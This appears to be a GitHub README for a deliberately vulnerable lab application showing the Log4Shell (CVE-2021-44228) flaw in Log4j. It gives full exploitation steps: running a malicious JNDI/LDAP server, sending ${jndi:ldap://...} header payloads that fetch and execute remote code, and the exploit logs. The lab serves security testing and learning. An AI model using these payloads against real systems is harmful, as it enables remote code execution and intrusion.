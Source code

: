 # Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228,
nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Run it:

```bash
docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```

### Without docker

    gradle clean bootJar --no-daemon
    java -jar ./build/libs/log4shell-vulnerable-app-0.0.1-SNAPSHOT.jar

And to send the exploit:

    curl 127.0.0.1:8080 -H 'X-Api-Version: <PAYLOAD>'

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/)
. **Run at your own risk, preferably in a VM in a sandbox environment**.*

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (
presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528)). Just append `web.archive.org` in
front of the JNDIExploit download URL below to use the version cached by the Wayback Machine.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container
  running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)

## TL;DR POC/easy start

### Start vulnerable target

    git clone https://github.com/HenryFBP/log4shell-vulnerable-app
    cd log4shell-vulnerable-app
    gradle clean bootJar --no-daemon
    java -jar ./build/libs/log4shell-vulnerable-app-0.0.1-SNAPSHOT.jar

### Start attacker's LDAP server

    git clone https://github.com/HenryFBP/JNDI-Exploit-Server
    cd JNDI-Exploit-Server
    mvn clean package
    java -jar JNDIExploit.jar

### Send payload to vulnerable target (need GNU curl.exe...)

    choco install -y curl
    curl.exe 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://localhost:1389/Basic/Command/Base64/Y2FsYy5leGU=}'
